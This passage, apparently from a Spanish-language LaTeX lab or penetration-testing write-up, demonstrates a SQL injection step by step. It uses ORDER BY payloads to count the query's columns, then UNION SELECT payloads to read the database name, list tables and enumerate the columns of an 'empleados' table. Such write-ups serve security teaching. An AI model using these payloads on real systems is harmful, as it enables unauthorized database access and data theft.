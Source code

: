 Cuando la aplicación muestra más resultados de los esperados, se confirma que el parámetro está siendo incorporado a una consulta SQL de forma insegura.

\subsubsection*{Identificación del número de columnas}

Para preparar una explotación mediante \texttt{UNION SELECT}, se determina el número de columnas de la consulta original mediante \texttt{ORDER BY}:

\begin{configbox}
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
' ORDER BY 4#
' ORDER BY 5#
' ORDER BY 6#
' ORDER BY 7#
\end{configbox}

El fallo al llegar a \texttt{ORDER BY 7} indica que la consulta original contiene seis columnas.

\subsubsection*{Extracción de información de la base de datos}

Una vez conocido el número de columnas, se prepara una consulta \texttt{UNION SELECT} de prueba:

\begin{configbox}
' UNION SELECT 'A','B','C','D','E','F'#
\end{configbox}

A continuación se obtiene el nombre de la base de datos activa:

\begin{configbox}
' UNION SELECT database(),'B','C','D','E','F'#
\end{configbox}

Para listar las tablas existentes se consulta \texttt{information\_schema.tables}:

\begin{configbox}
' UNION SELECT group_concat(table_name),'B','C','D','E','F'
FROM information_schema.tables
WHERE table_schema = database()#
\end{configbox}

Después se enumeran las columnas de la tabla \texttt{empleados}:

\begin{configbox}
' UNION SELECT group_concat(column_name separator ' | '),'B','C','D','E','F'
FROM information_schema.columns
WHERE table_name = 'empleados'#
\end{configbox}

